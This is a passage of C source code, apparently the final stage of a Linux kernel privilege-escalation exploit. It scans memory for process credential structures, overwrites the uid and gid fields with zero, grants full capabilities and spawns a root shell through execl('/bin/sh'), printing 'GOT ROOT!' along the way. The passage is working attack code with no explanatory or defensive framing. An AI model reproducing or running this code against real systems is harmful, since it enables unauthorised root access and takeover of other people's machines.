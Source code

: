 ```c
		addr[credIt++] == uid &&
		addr[credIt++] == uid &&
		addr[credIt++] == uid &&
		addr[credIt++] == uid &&
		addr[credIt++] == uid &&
		addr[credIt++] == uid &&
		addr[credIt++] == uid
		)
		{
			credNum++;
			printf("[+] Found cred structure! ptr: %p, credNum: %d\n", addr, credNum);
			credIt = 0;
			addr[credIt++] = 0;
			addr[credIt++] = 0;
			addr[credIt++] = 0;
			addr[credIt++] = 0;
			addr[credIt++] = 0;
			addr[credIt++] = 0;
			addr[credIt++] = 0;
			addr[credIt++] = 0;
			if (getuid() == 0)
			{
				puts("[+] GOT ROOT!");
				credIt += 1; //Skip 4 bytes, to get capabilities
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				execl("/bin/sh", "-", (char *)NULL);
				puts("[-] Execl failed...");
				break;
			}
			else
			{
				credIt = 0;
				addr[credIt++] = uid;
				addr[credIt++] = uid;
				addr[credIt++] = uid;
				addr[credIt++] = uid;
				addr[credIt++] = uid;
				addr[credIt++] = uid;
				addr[credIt++] = uid;
			}
		}
		addr++;
	}
	puts("[+] Scanning loop END");
	fflush(stdout);
	
	int stop = getchar();
	return 0;
}
```
